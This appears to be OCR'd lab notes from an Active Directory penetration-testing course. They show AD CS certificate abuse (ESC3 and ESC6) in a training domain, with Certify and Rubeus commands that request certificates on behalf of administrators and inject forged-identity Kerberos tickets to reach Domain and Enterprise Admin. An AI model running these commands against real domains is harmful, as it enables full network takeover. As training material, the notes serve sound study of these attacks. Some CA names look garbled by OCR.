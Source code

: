 **Escalation to DA -**

* We can now request a certificate for Certificate Request Agent from "SmartCardEnrollmentAgent" template.

```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Agent
```

* Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a certificate on behalf of DA using the "SmartCardEnrollment-Users" template.

```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
```

• Convert from cert.pem to pfx (esc3user-DA.pfx below), request DA TGT and inject it -

```
Rubeus.exe asktgt /user:administrator /certificate:esc3user-DA.pfx /password:SecretPass@123 /ptt
```

**Escalation to EA -**

* Convert from cert.pem to pfx (esc3agent.pfx below) and use it to request a certificate on behalf of EA using the "SmartCardEnrollment-Users" template

```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorpMCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
```

* Request EA TGT and inject it -

```
Rubeus.exe asktgt /user:moneycorp.local\administrator /certificate:esc3user.pfx /dc:mcorp-dc.moneycorp.local /password:SecretPass@123 /ptt
```

### ADSC - ESC6

* The CA in moneycorp has EDITF\_ATTRIBUTESUBJECTALTNAME2 flag set. This means that we can request a certificate for ANY user from a template that allow enrollment for normal/low-privileged users.

```
Certify.exe find
```

* The template "CA-Integration" grants enrollment to the RDPUsers group. Request a certificate for DA (or EA) as studentx

```
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DCCA /template:"CA-Integration" /altname:administrator
```

* Convert from cert.pem to pfx (esc6.pfx below) and use it to request a TGT for DA (or EA).

